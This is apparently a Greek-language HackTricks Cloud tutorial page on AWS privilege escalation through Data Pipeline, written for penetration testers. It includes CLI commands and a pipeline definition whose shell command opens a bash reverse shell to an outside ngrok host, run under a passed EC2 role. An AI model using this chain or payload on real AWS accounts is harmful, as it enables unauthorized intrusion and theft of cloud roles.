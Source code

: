 # AWS - Datapipeline Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## datapipeline

Για περισσότερες πληροφορίες σχετικά με το datapipeline, ελέγξτε:

{% content-ref url="../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md" %}
[aws-datapipeline-codepipeline-codebuild-and-codecommit.md](../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md)
{% endcontent-ref %}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

Οι χρήστες με αυτές τις **άδειες μπορούν να αναβαθμίσουν τα προνόμιά τους δημιουργώντας ένα Data Pipeline** για να εκτελούν αυθαίρετες εντολές χρησιμοποιώντας τα **προνόμια του ανατεθέντος ρόλου:**
```bash
aws datapipeline create-pipeline --name my_pipeline --unique-id unique_string
```
Μετά τη δημιουργία του pipeline, ο επιτιθέμενος ενημερώνει τον ορισμό του για να καθορίσει συγκεκριμένες ενέργειες ή δημιουργίες πόρων:
```json
{
"objects": [
{
"id" : "CreateDirectory",
"type" : "ShellCommandActivity",
"command" : "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
"runsOn" : {"ref": "instance"}
},
{
"id": "Default",
"scheduleType": "ondemand",
"failureAndRerunMode": "CASCADE",
"name": "Default",
"role": "assumable_datapipeline",
"resourceRole": "assumable_datapipeline"
},
{
"id" : "instance",
"name" : "instance",
"type" : "Ec2Resource",
"actionOnTaskFailure" : "terminate",
"actionOnResourceFailure" : "retryAll",
"maximumRetries" : "1",
"instanceType" : "t2.micro",
"securityGroups" : ["default"],
"role" : "assumable_datapipeline",
"resourceRole" : "assumable_ec2_profile_instance"
}]
}
```
{% hint style="info" %}
Σημειώστε ότι ο **ρόλος** στις **γραμμές 14, 15 και 27** πρέπει να είναι ρόλος **που μπορεί να αναληφθεί από το datapipeline.amazonaws.com** και ο ρόλος στην **γραμμή 28** πρέπει να είναι **ρόλος που μπορεί να αναληφθεί από το ec2.amazonaws.com με ένα προφίλ EC2 instance**.

Επιπλέον, το EC2 instance θα έχει πρόσβαση μόνο στον ρόλο που μπορεί να αναληφθεί από το EC2 instance (έτσι μπορείτε να κλέψετε μόνο αυτόν).
{% endhint %}
```bash
aws datapipeline put-pipeline-definition --pipeline-id <pipeline-id> \
--pipeline-definition file:///pipeline/definition.json
```
Το **αρχείο ορισμού pipeline, που έχει κατασκευαστεί από τον επιτιθέμενο, περιλαμβάνει οδηγίες για την εκτέλεση εντολών** ή τη δημιουργία πόρων μέσω του AWS API, εκμεταλλευόμενο τα δικαιώματα ρόλου του Data Pipeline για να αποκτήσει πιθανώς επιπλέον προνόμια.

**Πιθανές Επιπτώσεις:** Άμεση privesc στον ρόλο υπηρεσίας ec2 που έχει καθοριστεί.

## Αναφορές

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
